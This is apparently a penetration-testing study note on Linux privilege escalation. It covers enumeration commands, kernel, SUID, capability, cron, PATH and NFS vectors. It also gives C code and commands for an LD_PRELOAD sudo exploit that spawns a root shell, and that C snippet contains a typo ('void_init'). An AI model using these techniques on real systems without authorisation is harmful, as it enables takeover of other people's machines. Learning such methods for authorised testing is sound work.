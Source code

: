 ```yaml
---
description: Seventeenth section in Jr Penetration Tester learning path.
---
```


# Linux Privilege Escalation

### Introduction

Privilege escalation is the act of moving from a low privilege account to a high privilege account using a vulnerability exploit, design flaw or configuration oversight. Privilege escalation is crucial because it allows you to gain administrative access to a system which can allow:

* Password resets
* Bypass of access controls
* Editing software configurations
* Enabling persistence
* Changing privileges of other users
* Execution of admin commands

### Enumeration

Enumeration is important in post-compromise situations, below are useful commands/locations:

* `hostname` : returns hostname of target, can provide info depending on setup e.g. device may be named SQL-PROD for a production SQL server.
* `uname -a` : print system info about the kernel being used by the system.
* `/proc/version` : procfs (proc filesystem) provides info about target system processes, /version will give info on the kernel version and additional data like whether a compiler is installed.
* `/etc/issue` : contains info about the OS but is easily changed
* `ps` : shows all running processes for current shell, will show PID, TTY (terminal type used by user), Time (amount of CPU time used by process), CMD (command or executable running)
* `ps -A` : all running processes
* `ps axjf` : view process tree
* `ps aux` : show processes for all users - (a) for all users, (u) for user that launched the process and (x) for processes not attached to a terminal
* `env` : show environment variables, the PATH variable may have a compiler or scripting language that can be leveraged
* `sudo -l` : list commands your user can run using sudo
* `ls` : list files
* `ls -la` : list files and show hidden files
* `id` : overview of users privilege and group memberships
* `/etc/passwd` : shows users on system
* `history` : shows earlier commands, rarely can have info like usernames and passwords stored
* `ifconfig` : shows network interface information
* `netstat -a` : show all listening ports and established connections
* `netstat -l` : list ports only in listening mode
* `netstat -at/-au` : show TCP or UDP respectively&#x20;
* `netstat -ano` : display all sockets, do not resolve hostnames and display timers
* `find` : search system for potential escalation vectors
* `find / writable -type d 2>/dev/null` : find world-writable folders

### Kernel Exploits

Exploit methodology is simple:

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of target
3. Run exploit

Although it appears simple, a failed kernel exploit can cause a system crash, it is always important to be careful. Before running kernel exploits you should fully understand what they do, some can cause irreversible system changes which cause issues later.

### Sudo Exploits (sudo -l)

Some systems may have the `LD_PRELOAD` environment option, this function allows any program to use shared libraries. If `"env_keep"` is enabled then a shared library can be generated which will be loaded and executed before a program is run. `LD_PRELOAD` will be ignored if the real user ID is different from the effective user ID. The steps can be summarised as:

1. Check for `LD_PRELOAD` (with `env_keep` option)
2. Write C code compiled as a share object (.so extension) file
3. Run program with sudo rights and `LD_PRELOAD` pointing to .so file

The C code which spawns a root shell is:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void_init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

This can be saved as `shell.c` and compiled with gcc into a shared object file:

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

This can then be run with sudo specifiying the `LD_PRELOAD` option:

```
sudo LD_PRELOAD=/home/user/preload/shell.so find
```

This will then spawn a shell with root privileges.

### SUID Exploits

The command `find / -type f -perm -04000 -ls 2>/dev/null` will show files that have their SUID or SGID bit set. Best practice is then to compare this against GTFOBins binaries to see if an exploit is available.

### Capability Exploits

Capabilities help manage privileges at a granular level. For example, a binary can have its capability set to allow it to run a task as a higher privilege. The getcap tool can be used to list enabled capabilities with `getcap -r / 2>/dev/null`.

### Cron Job Exploits

A cron job is used to run a script or binary at a specific time, by default, these run with the privilege of their owner and not the current user. Properly configured cron jobs are not inherently vulnerable, but they can provide a privilege escalation vector in some situations.

Cron job configurations are stored as crontabs (cron tables). Each user on the system has their crontab file and can run specific tasks whether logged in or not. Any user can read system wide cron jobs under `/etc/crontab`.

Crontab is always worth checking as it can lead to easy privilege escalation vectors, companies with less mature cyber security can often have situations like:

1. System admins need to run a script at regular intervals
2. They make a cron job for it
3. After some time, the script is not required and deleted
4. The cron job is left uncleaned

### PATH Exploits

If a folder which your user has write permission for is located in the path, you could hijack an application to run a script. PATH tells the OS where to look for executables. Any command not built into shell or not defined with an absolute path, Linux will search folders defined under PATH. Typing echo $PATH will show the PATH. Before attempting this consider:

1. What folders are in $PATH
2. Do you have write privilege for any of these?
3. Can you modify $PATH?
4. Is there a script/app affected by this?

A simple command to search for writable folders can be done with: `find / -writable 2>/dev/null`. This can be cleaned with:

```
find / -writable 2>/dev/null | cut -d "/" -f 2 | grep -v proc | sort -u
```

You can add to path by using `export PATH=/folder:$PATH`.

### NFS Exploits

Shared folders and remote management interfaces like SSH and Telnet can also be used to help gain root access on a target. Most relevant in CTFs/exams will be misconfigured network shells.

NFS (Network File Sharing) configurations are kept in `/etc/exports`. This file can usually be read by all users. The critical elemnet in NFS exploits is ensuring that "no\_root\_squash" is set. By default, NFS will change the root user to nfsnobody and strip files from operating as root, however, if "no\_root\_squash" is set, then we can create an executable with an SUID bit and run it.
